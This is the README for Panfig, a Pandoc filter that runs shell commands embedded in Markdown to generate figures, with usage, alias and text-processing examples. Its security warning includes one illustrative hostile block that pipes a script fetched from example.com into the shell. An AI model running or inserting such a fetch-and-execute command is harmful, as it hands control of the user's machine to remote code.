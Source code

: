 Pandoc Figure Framework
=======================

This library lets you write self-contained Pandoc/Markdown files containing figures.

Without Panfig, if you want figures, you have to save the image files, and the scripts that generate them, alongside the document. You'd probably even have a Makefile or something to ensure that all the figures were up to date. What a hassle!

With Panfig, the document stands alone. It describes how to generate the images, and they're generated when the document is compiled to HTML (or whatever).

For example, this Markdown code:

    Here is a very simple FSM: the "on-off automaton."

    ~~~~~~~~ {.panfig shell="dot -Tpng -o %s"}
      digraph G {
        on [style=filled];
        on -> off;
        off -> on;
      }
    ~~~~~~~~

generates HTML that looks like this:

> Here is a very simple FSM: the "on-off automaton."
>
> ![](on-off.png)



Security: for God's sake, be careful.
-------------------------------------

I am putting this up near the top because you should care about it.
**Panfig executes arbitrary code contained in the document being compiled. If you invoked Pandoc (+Panfig) on the following document, it would own your computer.**


    ~~~~~~~~ { .panfig shell="curl http://example.com/evil_exploit.sh | sh"}
    ~~~~~~~~


How do I use it?
----------------

1. **Install.** First things, of course, first: `pip install panfig`.

2. **Write Markdown.** In your Markdown file, where you want a figure, write a code block that describes how to generate the desired figure. For example:

        ~~~~~~~~ { .panfig shell="dot -Tpng -o %s" }
          digraph G {
            on -> off;
            off -> on;
          }
        ~~~~~~~~

    This uses Pandoc's [fenced code block](http://pandoc.org/README.html#fenced-code-blocks) syntax to give the block the `.panfig` class (to flag it for processing by Panfig), and a `shell` attribute specifying the command that will generate the figure. (It's a `printf`-style format string, so `%s` is replaced by the `sh`-escaped path to the image file that should be created.) The shell command is run, with the contents of the code block passed to the subprocess's standard input. It's that simple!

3. **Compile the document.** Invoke `pandoc` to compile the document as you normally would, but add the option `--filter panfig`. (If the `panfig` executable isn't on your default path -- for example, if you use Virtualenv -- you may need to pass the full path to the `panfig` executable, e.g. `~/.virtualenv/3.4/bin/panfig`.)


### Bells and Whistles

#### Aliases

An alias specifies a set of attributes that Panfig should pretend a block has. For example, instead of writing `shell="dot -Tpng -o %s"` for all your graphs, you could instead define an alias, like so:

        ~~~~~~~~ { .panfig-aliases }
          {"dot": {"shell": "dot -Tpng -o %s"}}
        ~~~~~~~~

        ~~~~~~~~ { .panfig alias=dot }
          digraph G { on -> off; off -> on; }
        ~~~~~~~~

This is exactly, 100% identical to

        ~~~~~~~~ { .panfig shell="dot -Tpng -o %s" }
          digraph G { on -> off; off -> on; }
        ~~~~~~~~

The body of a `.panfig-aliases` block should be a JSON object of the form `{"alias-name": {"attr": "value", ...}, ...}` -- that is, mapping alias names to objects, which in turn specify the attributes you're using the alias as a shorthand for.

Panfig comes with several aliases predefined:

- `dot`: uses `dot` to generate a PNG, e.g.

        ~~~~~~~~ { .panfig alias=dot }
          digraph G { on -> off; off -> on; }
        ~~~~~~~~

- `mathematica` uses Mathematica to generate a PNG, e.g.

        ~~~~~~~~ { .panfig alias=mathematica }
          Plot[Sin[x], {x, 0, 2 Pi}] (* last result is `Export`ed *)
        ~~~~~~~~

- `matplotlib` uses Matplotlib to generate a PNG, e.g.

        ~~~~~~~~ { .panfig alias=matplotlib }
          import numpy as np
          xs = np.linspace(0, 2*np.pi, 100)
          plt.plot(xs, np.sin(xs)) # matplotlib.pyplot is already imported as plt
          # plt.savefig() is called at the end to generate the image
        ~~~~~~~~


#### Text Processing

Often, to avoid code duplication, you'll want to massage the code block's contents in some way. Panfig supports some special attributes that will perform common massaging operations:

- `prologue="..."`: prepends the attribute-value to the block's contents (separated by a newline)
- `epilogue="..."`: appends the attribute-value to the block's contents (separated by a newline)
- `dedent=true`: removes an equal amount of whitespace (as much as possible, given that constraint) from the beginning of each line

This is all stuff that you *could* do just by constructing a fancy pipeline in your `shell` command, but... what a pain.

For example:


        ~~~~~~~~ { .panfig-aliases }
          {"fsm": {"shell": "dot -Tpng -o %s",
                   "prologue": "digraph G { _start [shape=\"none\", label=\"\"];",
                   "epilogue": "}"}}
        ~~~~~~~~

        ~~~~~~~~ {.panfig alias=fsm}
          _start -> off;
          on [shape="doublecircle"];
          on -> off;
          off -> on;
        ~~~~~~~~
